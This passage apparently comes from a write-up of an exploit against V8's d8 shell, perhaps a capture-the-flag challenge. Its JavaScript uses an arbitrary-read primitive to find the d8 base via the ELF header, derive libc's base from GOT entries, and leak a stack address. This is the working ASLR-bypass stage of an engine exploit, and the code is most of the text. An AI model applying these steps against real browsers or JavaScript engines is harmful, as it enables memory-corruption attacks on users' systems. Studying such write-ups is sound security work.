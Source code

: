 The first thing that I did was to try to obtain the location of
`D8_BASE` (i.e., find the start of the first page of the `d8`
executable). The code below was written after spending a whole bunch
of time trying to stabilize this.

```js
function calc_d8_addr() {
	let a = LEAKED_ADDR;
	a &= ~(0xffffn);		// Go to start of page
	a = arb_read(a + 24n);	// Dereference start+8
	a = arb_read(a);		// Deref that
	a = arb_read(a);		// And now we are in d8
	a &= ~(0x7fffn);		// Go near start of page
	a -= 0x600000n;		// Go nearer to start of page
	for(var x = 0; x < 0x20000; x += 0x1000) {
	if (arb_read(a - BigInt(x)) == 0x00010102464c457f) {
		// console.log(x.toString(16));
		return (a - BigInt(x));
	}
	}
	throw "[FAIL] Could not find valid d8 base";
}
const D8_BASE = calc_d8_addr();
if (arb_read(D8_BASE) != 0x00010102464c457f) {
	throw "[FAIL] D8_BASE is unstable"
}
if (arb_read(D8_BASE + 0x606000n) != 0x89485ed18949ed31n) {
	throw "[FAIL] Can't find correct R_X page from D8_BASE"
}
console.log("    + Obtained D8_BASE = " + D8_BASE.hex());
```

With `D8_BASE`, I could obtain `LIBC_BASE`:

```js
const libc_fputc = arb_read(D8_BASE + 0x115eb48n);
const libc_printf = arb_read(D8_BASE + 0x115eb68n);
const libc_puts = arb_read(D8_BASE + 0x115eb58n);
const libc_base = libc_fputc - FPUTC_OFFSET;
if ( libc_base + PRINTF_OFFSET != libc_printf ) {
	throw "[FAIL] Unknown libc";
}
if ( libc_base + PUTS_OFFSET != libc_puts ) {
	throw "[FAIL] libc is messing with me";
}
console.log("    + libc_base: " + libc_base.hex());
```

... and thus, we could leak a stack address:

```js
const libc_environ = libc_base + ENVIRON_OFFSET;
const stack_leak = arb_read(libc_environ);
```
